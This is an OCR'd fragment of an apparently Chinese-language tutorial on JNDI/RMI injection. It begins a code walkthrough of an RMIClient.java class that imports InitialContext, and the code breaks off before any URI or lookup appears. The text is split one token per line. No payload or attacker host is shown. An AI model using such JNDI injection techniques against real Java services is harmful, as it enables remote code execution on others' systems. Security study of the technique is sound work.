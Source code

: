 InitialContext类  
  
RMIClient.java代码分析  
  
package  
  
jndi_rmi_injection  
;  
  
  
import  
  
javax  
.  
naming  
.  
InitialContext  
;  
  
import  
  
javax  
.  
naming  
.  
NamingException  
;  
  
public  
  
class  
  
RMIClient  
 {            
  
      
public  
  
static  
  
void  
  
main  
(  
String  
[]   
args  
)  
  
throws  
  
NamingException  
{            
  
          
String  
  
uri  
  
=  
  